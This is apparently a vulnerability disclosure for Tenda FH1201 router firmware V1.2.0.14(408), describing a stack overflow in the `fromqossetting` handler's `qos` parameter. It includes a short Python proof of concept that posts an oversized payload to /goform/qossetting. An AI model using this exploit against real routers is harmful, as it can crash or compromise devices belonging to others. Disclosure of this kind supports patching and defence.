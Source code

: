## Overview

- Firmware download website: https://www.tendacn.com/download/detail-3322.html

## Affected version

FH1201 Firmware  V1.2.0.14(408)

## Vulnerability details

The Tenda FH1201 Firmware  V1.2.0.14(408) has a stack overflow vulnerability located in the `fromqossetting` function. This function accepts the `qos` parameter from a POST request. The statement `strcpy(v8, src);` leads to a buffer overflow. The user-supplied `qos` can exceed the capacity of the `v8` array, thus triggering this security vulnerability.

![image-20240731135502239](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240731135502239.png)

## POC

```python
import requests

ip = "192.168.84.101"
url = "http://" + ip + "/goform/qossetting"
payload = b"a"*1000

data = {"qos": payload, "op":"delete"}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240731133213595](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240731133213595.png)